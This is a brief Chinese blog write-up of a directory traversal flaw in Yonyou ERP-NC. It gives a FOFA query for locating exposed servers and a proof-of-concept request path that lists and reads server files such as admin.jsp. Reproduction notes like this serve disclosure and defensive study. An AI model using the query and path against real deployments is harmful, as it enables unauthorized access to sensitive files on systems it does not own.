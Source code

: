 # ⽤友ERP-NC ⽬录遍历漏洞


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](https://image.geoer.cn/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](https://image.geoer.cn/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](https://image.geoer.cn/%E7%94%A8%E5%8F%8Bpoc.jpg)


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%8F%8Berp-nc-%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E/  

